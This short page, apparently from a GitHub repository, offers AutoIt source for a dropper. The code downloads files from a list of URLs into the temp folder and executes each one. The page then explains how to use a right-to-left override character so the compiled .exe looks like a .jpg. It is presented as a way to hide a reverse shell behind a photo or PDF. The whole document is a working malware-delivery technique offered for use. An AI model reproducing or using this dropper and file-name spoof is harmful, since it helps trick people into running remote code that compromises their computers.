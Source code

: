 # Save a reverse shell behind a photo/pdf etc

```python
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "url1,url2"

Local $urlsArray = StringSplit($urls, ",", 2 )

For $url In $urlsArray
	$sFile = _DownloadFile($url)
	shellExecute($sFile)

Next

Func _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = @TempDir & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc   ;==>_GetURLImage
```

Compile with `autoit`

Spoof `something.exe` using [RIGHT-TO-LEFT OVERRIDE](https://unicode-explorer.com/c/202E), so `hackexe.jpg` becomes `hackgpj.exe` and insert the RLO before `gpj` so it becomes `hackexe.jpg`